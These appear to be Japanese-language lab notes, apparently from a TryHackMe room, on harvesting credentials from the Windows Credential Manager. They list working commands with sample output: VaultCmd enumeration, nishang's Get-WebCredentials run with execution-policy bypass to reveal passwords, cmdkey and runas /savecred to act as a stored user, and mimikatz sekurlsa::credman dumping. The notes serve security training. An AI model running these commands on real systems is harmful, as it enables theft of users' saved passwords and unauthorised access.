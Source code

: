 ```shell
# "Web Credentials"の認証情報の詳細を一覧表示
VaultCmd /listcreds:"Web Credentials"

Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
```

### 資格情報のダンプ

https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1

パスワードも表示できる

```ps
powershell -ex bypass

Import-Module C:\Tools\Get-WebCredentials.ps1

Get-WebCredentials
```

### Runas

```ps
# 保存された Windows 資格情報の列挙
cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=thm\thm-local
    Type: Domain Password
    User: thm\thm-local
```

```ps
# /savecred 引数を使用して CMD.exe をユーザーとして実行する
runas /savecred /user:THM.red\thm-local cmd.exe

Attempting to start cmd.exe as user "THM.red\thm-local" ...
```

### mimikatz

```shell
# 資格情報マネージャーセクションのみをダンプ
mimikatz # privilege::debug
mimikatz # sekurlsa::credman
```
